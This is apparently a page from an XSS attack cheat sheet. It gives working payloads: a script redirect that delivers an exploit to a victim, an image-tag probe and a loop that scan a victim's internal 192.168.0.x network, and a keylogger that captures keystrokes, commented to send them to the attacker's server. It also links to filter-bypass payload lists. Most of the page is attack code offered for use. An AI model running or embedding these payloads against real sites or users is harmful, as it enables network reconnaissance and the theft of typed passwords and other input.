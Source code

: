 ## Deliver exploit to a victim

```javascript
<script>
location="https://xxxx"
</script>
```

## IP and Port Scanning with XSS

{% code overflow="wrap" fullWidth="true" %}
```javascript
# For example, a website could try to find if your router has a web interface at 192.168.0.1 by:
<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">

# The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255
   <script>
  for (let i = 0; i < 256; i++) {// This is looping from 0 to 255
   let ip = '192.168.0.' + i// Creates variable for forming IP
  // Creating an image element, if the resource can load, it logs to the /logs page.
   let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
   document.body.innerHTML += code// This is adding the image element to the webpage
  }
</script>

# A more detailed port scanner
https://github.com/aabeling/portscan
```
{% endcode %}

## Key-Logger with XSS

{% code overflow="wrap" fullWidth="true" %}
```html
# Javascript can be used for many things, including creating an event to listen for keypresses.
 <script type="text/javascript">
  let l = ""; // Variable to store key-strokes in
  document.onkeypress = function (e) { // Event to listen for key presses
    l += e.key; // If user types, log it to the l variable
    console.log(l); // update this line to post to your own server
  }
 </script>
```
{% endcode %}

## Filter Evasion / Filter Bypass

<pre class="language-sh" data-overflow="wrap" data-full-width="true"><code class="lang-sh">https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass/
